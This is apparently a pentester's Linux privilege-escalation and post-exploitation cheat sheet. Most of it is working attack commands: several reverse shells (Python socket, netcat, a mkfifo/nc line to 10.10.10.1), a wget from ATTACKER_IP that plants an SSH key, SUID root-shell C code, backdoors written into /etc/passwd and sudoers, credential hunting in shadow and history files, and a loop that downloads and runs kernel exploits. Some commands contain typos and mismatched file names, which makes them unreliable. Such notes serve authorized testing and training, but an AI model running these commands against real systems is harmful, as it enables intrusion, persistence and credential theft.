


# Linux






## Post exploitation



### Escaping limited interpreters

#### Some payloads to overcome limited shells:

```text
ssh user@$ip nc $localip 4444 -e /bin/sh
enter user's password

export TERM=linux
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),   *$ 1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```

go into /bin/ and see what binaries are in there.

```text
/bin/csh -i # worked for BSD
```

### From within tcpdump

```text
echo $’id\n/bin/netcat $ip 443 -e /bin/bash’ > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -I eth- -w /dev/null -W 1 -G 1 -z /tmp/.tst -Z root
```

### From busybox

```text
/bin/busybox telnetd -|/bin/sh -p9999
```

```text
:!bash
:set shell=/bin/bash:shell
!bash
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
awk 'BEGIN {system("/bin/bash")}'
--interactive
echo "os.execute('/bin/sh')"
sudo nmap --script=exploit.nse
perl -e 'exec "/bin/bash";'
```

### Add public key to authorized keys:

```text
echo $(wget https://ATTACKER_IP/.ssh/id_rsa.pub) >> ~/.ssh/authotized_keys
```

## MindMap


## Linux elevation of privileges, manual testing

### Things to look for

* Miss-configured services \(cronjobs\)
  * any running as a privileged user?
* Incorrect file permissions \(exportfs, sudo\)
* Miss-configured environment \($PATH\)
* Binary with SUID bit
* Software or OS with known vulnerabilities

## SUDO

Read `http://touhidshaikh.com/blog/?p=790` 

#### Can you su to root without a password?

```text
su root
```


If you get an error "su: must be run from a terminal"  
use one of the shell fixes above


```text
root ALL=(ALL) ALL
The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.
```

```text
jelly ALL= /sbin/poweroff
The user jelly can from any terminal, run the command power off using jelly's user password.
```

```text
jelly ALL = (root) NOPASSWD: /usr/bin/find
The user jelly can from any terminal, run the command find as root user without password.
```

Try simple sudo:

```text
sudo su -
```

What can we run with sudo?

```text
sudo -l
```

Try su as all users and the username as password

User bash history

```text
cat ~/.bash_history; cat ~/.nano_history; cat ~/.atftp_history; cat ~/.mysql_history; cat ~/.php_history
```

## Questions to ask yourself

#### What user with what permissions + where am I?

```text
id
pwd
```

#### What usernames could I login as?

```text
 grep -vE "nologin|false" /etc/passwd
```

#### What architecture?

```text
uname -m
```

#### Whats running on the machine?

```text
ps aux
```

look for something\(s\) that are running which is not standard

#### What services are running?

```text
netstat -antup
```

if things are here that are not on the nmap scan - could be a firewall rule blocking it is mysql in there? If so creds will be stored somewhere on the box

#### What is installed?

```text
dpkg -l
rpm -qa
```

```text
# Common locations for user installed software
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/

# Debian
dpkg -l

# CentOS, OpenSuse, Fedora, RHEL
rpm -qa (CentOS / openSUSE )

# OpenBSD, FreeBSD
pkg_info
```

#### What kernel version - low hanging fruit?

```text
uname -a
```

#### What web app creds can i find?

```text
find . -iname 'config' 2>/dev/null
```

Research where creds would be stored on certain webapps

#### Can you see the shadow file - get lucky?

```text
cat /etc/shadow
```

What services are running as root?:

```text
ps aux | grep root
```

Look for vulnerable/privileged components such as: mysql, sudo, udev, python

If **/etc/exports** if writable, you can add an NFS entry or change and existing entry adding the **no\_root\_squash** flag to a root directory, put a binary with SUID bit on, and get root.

### Some programs that can be used to spawn a shell:

```text
nmap
vim
less
more
```

## Cron Jobs

### What jobs are scheduled?

```text
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

If there is a **cronjob** that runs as run but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

The following command will list processes running by root, permissions and NFS exports.

```text
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

Use netstat to find other machines connected

```text
netstat -ano
```

#### Confidential information and users

```text
id
su
sudo -l
cat /etc/passwd
cat /etc/shadow
cat /etc/group
cat /etc/sudoers # who is in there are you?
ls -alh /var/mail/
ls -ahlR /root
ls -ahlR /home/
```

```text
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}' #any other super users?
```

## Restricted Shell

You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

Its important to upgrade your shell as you may run a command which outputs to the terminal. If you don't upgrade it you wont see the output. IE running exploits.

```text
ssh user@$ip nc $localip 4444 -e /bin/sh
enter user's password
python -c 'import pty; pty.spawn("/bin/sh")'
export TERM=linux
```

```text
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: 
exec "/bin/sh";
ruby: 
exec "/bin/sh"
lua:
os.execute('/bin/sh')
From within IRB:
exec "/bin/sh"
From within vi:
 :!bash or
:set shell=/bin/bash:shell
From within vim 
':!bash':
From within nmap: 
!sh
From within tcpdump
echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root
From busybox 
/bin/busybox telnetd -|/bin/sh -p9999
```

## Find interesting files and directories fast

`find / -name "*.txt" 2> >(grep -v 'Permission denied' >&2)`

`grep -R -i "password" 2> >(grep -v 'Permission denied' >&2)`

## SUID files / binaries

The file will run as the owner no matter who executes it. So if root owns it, we can run it and hijack it to become root


If you have found a, download it to your box and open it in Ghidra. Check the main function to view decompiled commands interesting binary 


### World-writable folders

```text
find / -writable -type d 2>/dev/null
```

```text
find / -perm -222 -type d 2>/dev/null
```

```text
find / -perm -o w -type d 2>/dev/null
```

### World-executable folders

```text
find / -perm -o x -type d 2>/dev/null
```

### World-writeable & executable folders

```text
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

#### gives a bit more info

```text
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
```

### Word writable directories for root

```text
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep root
```

#### Look for binaries with the SUID or GUID bits set.

```text
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
```

```text
find / -perm -1000 -type d 2>/dev/null
```

```text
find / -perm -g=s -type f 2>/dev/null
```

```text
find / -user root -perm -4000 -print 2>/dev/null
```

In plain English, this command says to find files in the / directory owned by the user root with SUID permission bits \(_-perm -4000_\), print them, and then redirect all errors \(_2_ = stderr\) to _/dev/null_ \(where they get thrown away\). The reason for this redirect is that we aren't interested in things that we can't access, and access denied errors can fill up a terminal pretty fast.

Adding a binary to PATH, to hijack another SUID binary invokes it without the fully qualified path.

```text
function /usr/bin/foo () { /usr/bin/echo "It works"; }
export -f /usr/bin/foo
/usr/bin/foo
It works
```

 If you can get root to execute anything, the following will change a binary owner to him and set the SUID flag:

```text
chown root:root /tmp/setuid;chmod 4777 /tmp/setuid;
```

### Check running services and installed applications <a id="check-running-services-and-installed-applications"></a>

`ps -ef cat /etc/services dpkg -l rpm -qa`

An example here is for instance that you see a local database like mysql is running. Maybe you are able to find credentials for it and log into it locally on the box

If MYSQL is running as root, you can run commands using **sys\_exec\(\)**. For instance, to add user to sudoers:

```text
sys_exec('usermod -a -G admin username')
```

More about MYSQL:

```text
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

Command to skip ignored lines in config files

```text
alias nonempty="egrep -v '^[ \t]*#|^$'"
```

Find Linux distribution & version

```text
cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;
```

Check versions - use in conjunction with searchsploit

```text
dpkg -l
rpm -qa
httpd -v
mysql --version
python --version
ruby -v
```

#### Architecture

```text
cat /etc/*release
uname -m
```

#### Environment variables

```text
cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Find printers

```text
lpstat -a
```

#### Find apps installed;

```text
ls -alh /usr/bin/; ls -alh /sbin/; dpkg -l; rpm -qa; ls -alh /var/cache/apt/archivesO; ls -alh /var/cache/yum/*;
```

#### Find writable configuration files

```text
find /etc/ -writable -type f 2>/dev/null
```

#### Miss-configured services

```text
cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.*r.*/'
```

#### Scheduled jobs

```text
crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny'
```


[https://www.ghacks.net/2009/04/04/get-to-know-linux-the-etcinitd-directory/](https://www.ghacks.net/2009/04/04/get-to-know-linux-the-etcinitd-directory/)


#### Grep hardcoded passwords

```text
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

#### if web server run in web root:

```text
grep "localhost" ./ -R
```

#### Network configuration

```text
/sbin/ifconfig -a; cat /etc/network/interfaces; cat /etc/sysconfig/network; cat /etc/resolv.conf; cat /etc/sysconfig/network; cat /etc/networks; iptables -L; hostname; dnsdomainname
```

List other users home directories

```text
ls -ahlR /root/; ls -ahlR /home/
```

User mails

```text
cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root
```

Find interesting binaries

```text
find / -name wget 2>/dev/null; find / -name nc* 2>/dev/null; find / -name netcat* 2>/dev/null; find / -name tftp* 2>/dev/null; find / -name ftp 2>/dev/null
```

#### Mounted filesystems

```text
mount; df -h; cat /etc/fstab
```

If you can just change PATH, the following will add a poisoned ssh binary:

```text
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
```

```text
#Ippsec demoing $PATH PE
https://www.youtube.com/watch?v=3VxZNflJqsw
```

Generating SUID C Shell for /bin/bash

```text
int main(void){
    setresuid(0, 0, 0);
    system("/bin/bash");
}
```

Without interactive shell

```text
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
```

If /etc/passwd has incorrect permissions, you can root:

```text
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

or

```text
openssl passwd
#put in password, output is random sting
#pass this on the x part of root in /etc/passwd
su root using the password u set
```

Add user www-data to sudoers without password

```text
chmod 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

If you can sudo chmod:

```text
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c $ sudo chown root:root /tmp/setuid; sudo chmod 4777 /tmp/setuid; /tmp/setuid
```

Wildcard injection if there is a cron with a wildcard in the command line, you can create a file, whose name will be passed as an argument to the cron task, For more info:

```text
https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562
```

compile exploit fix error

```text
gcc 9545.c -o 9545 -Wl,--hash-style=both
```

Find other uses in the system

```text
 $id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l
```

```text
grep home /etc/passwd|cut -d: -f1
```

#### World readable/writable files:

```text
cho "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Find world-readable files:

```text
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
```

Find nobody owned files

```text
ind /dir -xdev \( -nouser -o -nogroup \) -print
```

Add user to sudoers in python.

```text
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

Ring0 kernel exploit for 2.3/2.4

```text
wget http://downloads.securityfocus.com/vulnerabilities/exploits/36038-6.c; gcc 36038-6.c -m32 -o ring0; chmod +x ring0; ./ring0
```

#### Inspect web traffic

```text
tcpdump tcp port 80 -w output.pcap -i eth0
```

## Scripts to run

The following script runs exploit suggester and automatically downloads and executes suggested exploits:

Useful script to run for initial scan - displays info on box

```text
wget https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh
sed -i -e 's/\r$//' bangenum.sh
./bangenum.sh
```

### Automatically downloads and compiles exploit

```text
wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
```

```text
USAGE: xploit_installer.py <exploit id>
```

### Linux Remote Exploits

```text
47: shellshock
48: heartbleed
```

### Linux Local Exploits

```text
49: linux-exploit-suggester
50: unix_privesc_check
51: kernel 2.4.x / 2.6.x (sock_sendpage 1)
52: kernel 2.4 / 2.6 (sock_sendpage 2)
53: kernel < 2.6.22 (ftruncate)
54: kernel < 2.6.34 (cap_sys_admin)
55: kernel 2.6.27 < 2.6.36 (compat)
56: kernel < 2.6.36-rc1 (can bcm)
57: kernel <= 2.6.36-rc8 (rds protocol)
58: *kernel < 2.6.36.2 (half nelson)
59: *kernel <= 2.6.37 (full nelson)
60: kernel 2.6 (udev)
61: kernel 3.13 (sgid)
62: kernel 3.13.0 < 3.19 (overlayfs 1)
63: kernel 3.14.5 (libfutex)
64: kernel 2.6.39 <= 3.2.2 (mempodipper)
65: *kernel 2.6.28 / 3.0 (alpha-omega)
66: kernel 2.6.22 < 3.9 (Dirty Cow)
67: kernel 3.7.6 (msr)
68: *kernel < 3.8.9 (perf_swevent_init)
69: kernel <= 4.3.3 (overlayfs 2)
70: kernel 4.3.3 (overlayfs 3)
71: kernel 4.4.0 (af_packet)
72: kernel 4.4.x (double-fdput)
73: kernel 4.4.0-21 (netfilter)
74: *kernel 4.4.1 (refcount)
```

```text
wget http://www.securitysift.com/download/linuxprivchecker.py
```

### Unix Priv checker

```text
wget https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh
```

Other scripts:

```text
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

### LinEnum

```text
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```text
./LinEnum.sh -t -r report.txt
```

### LinuxPrivchecker.py

```text
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

```text
wget https://raw.githubusercontent.com/PenturaLabs/Linux_Exploit_Suggester/master/Linux_Exploit_Suggester.pl
```

```text
wget  https://www.rebootuser.com/?p=1758
```

### Exploits worth running


Always be sure to read the comments in exploits they inform you about which systems and version are vulnerable, which parts of the script need modification & which compilation flags to use. $targetip 32 bit or 64 bit? Be mindful of this when compiling exploits.


#### Linux Kernel 3.13.0 &lt; 3.19 \(Ubuntu 12.04/14.04/14.10/15.04\) - 'overlayfs' Local Privilege Escalation

```text
https://www.exploit-db.com/exploits/37292
```

#### CVE-2010-3904 - Linux RDS Exploit - Linux Kernel &lt;= 2.6.36-rc8

```text
https://www.exploit-db.com/exploits/15285/
```

#### Linux Kernel &lt;= 2.6.37 'Full-Nelson.c'

```text
https://www.exploit-db.com/exploits/15704/
```

#### CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 \(Gentoo / Ubuntu x86/x64\)

```text
https://git.zx2c4.com/CVE-2012-0056/about/
```

#### Linux CVE 2012-0056

```text
wget -O exploit.c <http://www.exploit-db.com/download/18411>
  gcc -o mempodipper exploit.c
  ./mempodipper
```

#### CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel &lt;= 3.19.0-73.8

```text
https://dirtycow.ninja/
```

#### Compile dirty cow:

```text
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

#### Cross compiling exploits

```text
gcc -m32 -o output32 hello.c #(32 bit)
gcc -m64 -o output hello.c # (64 bit)
```

#### Linux 2.6.32

```text
https://www.exploit-db.com/exploits/15285/
```

#### Elevation in 2.6.x:

```text
for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://yourIP:8000/$a; chmod +x $a; ./$a; id; done
```

### Get proof

```text
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```


